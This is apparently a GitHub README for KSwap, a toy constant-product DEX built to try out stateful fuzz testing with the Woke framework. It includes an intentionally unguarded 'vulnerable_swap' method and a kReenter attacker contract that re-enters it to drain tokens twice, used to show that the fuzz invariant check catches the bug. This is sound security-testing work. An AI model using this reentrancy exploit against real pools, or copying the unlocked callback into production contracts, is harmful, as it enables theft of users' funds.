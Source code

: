 # KSwap

# Overview

Simple DEX implementation for the purpose of experimenting with stateful fuzz test design and implementation using the Woke framework.



# Constant Product AMM

The dex pool is a constant product AMM, based primarily on the Uniswap V2 model.  


It also builds on some ideas from UniswapV3 and Smardex

 [GitHub - SmarDex-Dev/smart-contracts](https://github.com/SmarDex-Dev/smart-contracts/tree/main)[GitHub - SmarDex-Dev/smart-contracts](https://github.com/SmarDex-Dev/smart-contracts/tree/main)

## Pool supports

- burn

- mint

- swap

- erc20 interface for the liquidity provider tokens

## Dex Pool Implementation

Below is the interface for the pool. Tmint and burn are implemented directly from UniswapV2. The mint and swap functionality borrows elements from UniswapV3 where a callback mechanism is used when the user needs to transfer tokens to the pool.  The interface also uses amountIn semantics for swapping.

```solidity
interface IkSwapSwapCallback {
    function kSwapCallback(int256 _amount0Delta, int256 _amount1Delta, bytes calldata _data) external;
}

interface IkSwapMintCallback {
    function kMintCallback(uint256 _amount0, uint256 _amount1,address _payer) external;
}

interface IkSwapPool {
    function token0() external view returns (address);
    function token1() external view returns (address);
    function getReserves() external view returns (uint112 _reserve0, uint112 _reserve1);
    function swap(address _to, bool _zeroForOne, uint256 _amountIn, bytes calldata _data) external returns (uint256);
    function mint(address _to, uint256 _amount0,uint256 _amount1) external returns (uint256);

    function previewMint(uint256 _amount0) external view returns(uint256 amount1_);
    function burn(address) external returns (uint256,uint256);

    function quote(uint256 _amountIn, uint256 _reserveIn, uint256 _reserveOut) external pure returns (uint256 amountOut_);
}
```



# Fuzz Testing Design

Starting with 3 flows and a single pool.


* add liquidity to the pool
* burn liquidity from the pool
* swap tokens in the pool.
* Check the constant product protocol invariant after each flow.



## Sample Sequence Of The Fuzz Test



These are the flows of a 10 step sequence.  Each flow has input parameters generated randomly by woke.  These steps emulate users minting, burning and swapping in random permutations.

```
seq: 0 flow: 0 flow name: flow_mint flow parameters:
{'to_': 0x8ab3dc1d2d61394a07391d91021928c683b0fd4d, 'amount0': 36747731846}
seq: 0 flow: 1 flow name: flow_mint flow parameters:
{'to_': 0x1bf1a0d2f84a085862187a79ea30302142bf3fc6, 'amount0': 6032415366}
seq: 0 flow: 2 flow name: flow_swap flow parameters:
{'to_': 0x8ab3dc1d2d61394a07391d91021928c683b0fd4d, 'zeroForOne': False, 'amount': 32740912904}
seq: 0 flow: 3 flow name: flow_mint flow parameters:
{'to_': 0x609767c4b0ab535b1256d7489e281c8211961845, 'amount0': 38677884889}
seq: 0 flow: 4 flow name: flow_swap flow parameters:
{'to_': 0x8ab3dc1d2d61394a07391d91021928c683b0fd4d, 'zeroForOne': True, 'amount': 9766379329}
seq: 0 flow: 5 flow name: flow_burn flow parameters:
{'to_': 0x609767c4b0ab535b1256d7489e281c8211961845}
seq: 0 flow: 6 flow name: flow_burn flow parameters:
{'to_': 0x8ab3dc1d2d61394a07391d91021928c683b0fd4d}
seq: 0 flow: 7 flow name: flow_mint flow parameters:
{'to_': 0x1bf1a0d2f84a085862187a79ea30302142bf3fc6, 'amount0': 38640011899}
seq: 0 flow: 8 flow name: flow_burn flow parameters:
{'to_': 0x8a263b7b74fecbbcaffe589dd1f9d6bc0b472802}
seq: 0 flow: 9 flow name: flow_mint flow parameters:
{'to_': 0xacf5d1ae6fb509bdb6b1bcd8a7cf545ed478a174, 'amount0': 19289289414}
```



# Re-entrancy



## Protection



The mint, burn and swap functions are protected by a re-entrancy guard modifier on the pool.  This follows the design of UniswapV2. 


```solidity
    modifier lock() {
        if (lockStatus != CONTRACT_UNLOCKED) {
            revert ContractLocked();
        }

        lockStatus = CONTRACT_LOCKED;
        _;
        lockStatus = CONTRACT_UNLOCKED;
    }

```



## Re-entrancy Experiment



I added an additional swap method to the dex that doesn't protect itself with a lock.  I then designed a simple exploit and I used the fuzz test suite to verify that the tests can catch errors such as this.  



This vulnerable_swap method does not have the lock modifier on it in the implementation

```solidity

function vulnerable_swap(address _to, bool _zeroForOne, uint256 _amountIn, bytes calldata _data) external returns (uint256);
```




The callback to the user occurs before the reserves are updated.  Without the lock, the user can initiate a 2nd swap inside the callback.  As such, the user transfers tokens to the pool one time and the pool sends tokens to the user twice.  At the end of this transaction, the constant product invariant does not hold and the fuzz test generates an error.

```solidity
//Lauches a basic Re-entrancy Attack on a pool with unlocked swap function
contract kReenter is IkSwapSwapCallback {
   
    function kSwapCallback(int256 _amount0Delta, int256 _amount1Delta, bytes calldata data) external {
            
        IkSwapPool p = IkSwapPool(msg.sender);
        (bool reenter, address from,bool zeroForOne,uint256 amountIn) = abi.decode(data, (bool,address,bool,uint256));
        if (reenter) { 
            //resend the same swap a 2nd time before the first one completes
            p.vulnerable_swap(from, zeroForOne, amountIn, abi.encode(false,from,zeroForOne,amountIn));
        } else {
            //send the payment
            if (_amount0Delta > 0) {
                IERC20(p.token0()).transferFrom(from, address(p), uint256(_amount0Delta));
            } else {
                IERC20(p.token1()).transferFrom(from, address(p), uint256(_amount1Delta));
            }
        }

    }


    function swap(address _pool, bool zeroForOne, uint256 amountIn) external returns (uint256) {

    
        return IkSwapPool(_pool).vulnerable_swap(msg.sender, zeroForOne, amountIn, abi.encode(true,msg.sender,zeroForOne,amountIn));
    }
}
```











# Running woke

## Initialize

`woke init pytypes`

## Configuration

create a .env file with the following url that points to alchemy.  This is used to create a local fork of mainnet for testing

```
RPC_URL=https://eth-mainnet.g.alchemy.com/v2/
```

## Running tests

`woke test `





# Future Work

Overflow is not tested right now.  Instead of using existing ERC20 tokens, create fake ERC20 tokens that we control the supply for.  Allow the operations on mint  / swap to add more liquidity than the 112 bits used for reserves.
